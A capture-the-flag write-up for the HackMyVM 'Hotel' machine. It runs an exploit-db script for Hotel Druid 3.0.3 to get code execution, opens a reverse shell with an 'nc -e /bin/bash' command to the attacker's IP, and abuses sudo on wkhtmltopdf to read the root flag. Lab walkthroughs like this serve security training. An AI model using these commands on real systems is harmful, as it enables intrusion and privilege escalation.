

# Hotel - Owner of Hackmyvm (SML)

# Network Discovery
```bash
┌──(kali💀kali)-[~]
└─$ fping -ag 192.168.1.1/24 2>/dev/null
192.168.1.1
192.168.1.2
192.168.1.102
192.168.1.107
192.168.1.110
192.168.1.106
```
# Nmap 
```shell script
  
┌──(kali💀kali)-[~]
└─$ nmap -A -sC -sV  -p-  192.168.1.110
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 16:00 EDT
Nmap scan report for 192.168.1.110
Host is up (0.00049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 06:1f:a2:25:19:45:2b:2f:44:cc:74:7a:e2:9b:ab:ac (RSA)
|   256 6f:b9:da:fb:eb:6b:4c:de:33:63:b7:ce:f0:2f:f7:cd (ECDSA)
|_  256 84:fb:1d:5c:4c:c6:60:e8:47:d8:2f:a0:92:8e:fb:18 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title:  Hoteldruid 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Port 80 Discovery


## Add site hote to /etc/hosts
```bash
┌──(kali💀kali)-[~]
└─$ cat /etc/hosts
127.0.0.1	localhost 
127.0.1.1	kali
::1		localhost ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters
192.168.1.110 hotel.hmv # add this manually  for being more comfortable 
```
```
if u watch site header  , (Hotel Druid appears)
```
# Hotel Druid 3.0.3 - Remote Code Execution (RCE)

```
check this link 
https://www.exploit-db.com/exploits/50754

```

# Use Exploit from exploit-db

```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/hotels]
└─$ searchsploit -p 50754
  Exploit: Hotel Druid 3.0.3 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50754
     Path: /usr/share/exploitdb/exploits/php/webapps/50754.py
    Codes: CVE-2022-22909
 Verified: False
File Type: Python script, ASCII text executable
                                                                                                                     
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/hotels]
└─$ cp /usr/share/exploitdb/exploits/php/webapps/50754.py .
                                                                                                                     
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/hotels]
└─$ python3 50754.py -h                               
usage: 50754.py [-h] -t TARGET [-u USERNAME] [-p PASSWORD] [--noauth]

options:
  -h, --help            show this help message and exit

required arguments:
  -t TARGET, --target TARGET
                        Target URL. Example : http://10.20.30.40/path/to/hoteldruid
  -u USERNAME, --username USERNAME
                        Username
  -p PASSWORD, --password PASSWORD
                        password
  --noauth              If No authentication is required to access the dashboard
```

# Road to Www-data

```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/hotels]
└─$ python3 50754.py -t http://192.168.1.110 --noauth

 /$$   /$$             /$$               /$$       /$$$$$$$                      /$$       /$$
| $$  | $$            | $$              | $$      | $$__  $$                    |__/      | $$
| $$  | $$  /$$$$$$  /$$$$$$    /$$$$$$ | $$      | $$  \ $$  /$$$$$$  /$$   /$$ /$$  /$$$$$$$
| $$$$$$$$ /$$__  $$|_  $$_/   /$$__  $$| $$      | $$  | $$ /$$__  $$| $$  | $$| $$ /$$__  $$
| $$__  $$| $$  \ $$  | $$    | $$$$$$$$| $$      | $$  | $$| $$  \__/| $$  | $$| $$| $$  | $$
| $$  | $$| $$  | $$  | $$ /$$| $$_____/| $$      | $$  | $$| $$      | $$  | $$| $$| $$  | $$
| $$  | $$|  $$$$$$/  |  $$$$/|  $$$$$$$| $$      | $$$$$$$/| $$      |  $$$$$$/| $$|  $$$$$$$
|__/  |__/ \______/    \___/   \_______/|__/      |_______/ |__/       \______/ |__/ \_______/

Exploit By - 0z09e (https://twitter.com/0z09e)


[*] Trying to access the Dashboard.
[*] Checking the privilege of the user.
[+] User has the privilege to add room.
[*] Adding a new room.
[+] Room has been added successfully.
[*] Testing code exection
[+] Code executed successfully, Go to http://192.168.1.110/dati/selectappartamenti.php and execute the code with the parameter 'cmd'.
[+] Example : http://192.168.1.110/dati/selectappartamenti.php?cmd=id
[+] Example Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
This is our RCE command that we can get a reverse shell  :

curl http://192.168.1.110/dati/selectappartamenti.php?cmd=nc+-e+/bin/bash+192.168.1.107+1234

```


# Extend the priv 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@dhcppc10:~/html/hoteldruid/dati$ export TERM=xterm
export TERM=xterm
#now press CTRL-Z
stty raw -echo;fg 
                    reset
```

# Ttylog file
```bash
www-data@dhcppc10:~/html$ ttyplay < ttylog 
person@hotel:~$ my passw0rd is XXXXXXXXXXXX enjoy # i hide password
```
# Person 
```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/hotels]
└─$ ssh person@192.168.1.110 # here enter password u found                                      
The authenticity of host '192.168.1.110 (192.168.1.110)' can't be established.
ED25519 key fingerprint is SHA256:OsYCJAYzE541/4ZyAtfmrZZRGQ7hdWYx8yZEu01QeB8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.110' (ED25519) to the list of known hosts.
person@192.168.1.110's password: 
Linux dhcppc10 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb 20 14:40:49 2022 from 192.168.1.51
person@dhcppc10:~$ 
```

# PrivEsc to Root

```bash
person@dhcppc10:~$ sudo -l
sudo: unable to resolve host dhcppc10: Nombre o servicio desconocido
Matching Defaults entries for person on dhcppc10:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User person may run the following commands on dhcppc10:
    (root) NOPASSWD: /usr/bin/wkhtmltopdf
```

```bash
person@dhcppc10:~$ sudo wkhtmltopdf  /root/root.txt ./rootflag.txt
sudo: unable to resolve host dhcppc10: Nombre o servicio desconocido
QStandardPaths: XDG_RUNTIME_DIR not set, defaulting to '/tmp/runtime-root'
Loading page (1/2)
Printing pages (2/2)                                               
Done  
```

``` 
Lets download the file to our system and read it 
```
```bash
person@dhcppc10:~$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.107 - - [23/May/2024 22:25:12] "GET /rootflag.txt HTTP/1.1" 200 -
===================================
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/hotels]
└─$ wget 192.168.1.110:8000/rootflag.txt                        
--2024-05-23 16:25:12--  http://192.168.1.110:8000/rootflag.txt
Connecting to 192.168.1.110:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7617 (7.4K) [text/plain]
Saving to: ‘rootflag.txt’

rootflag.txt                 100%[==============================================>]   7.44K  --.-KB/s    in 0s      

2024-05-23 16:25:12 (722 MB/s) - ‘rootflag.txt’ saved [7617/7617]

```

```
Now we just open it and see root flag 
happy hacking 
```



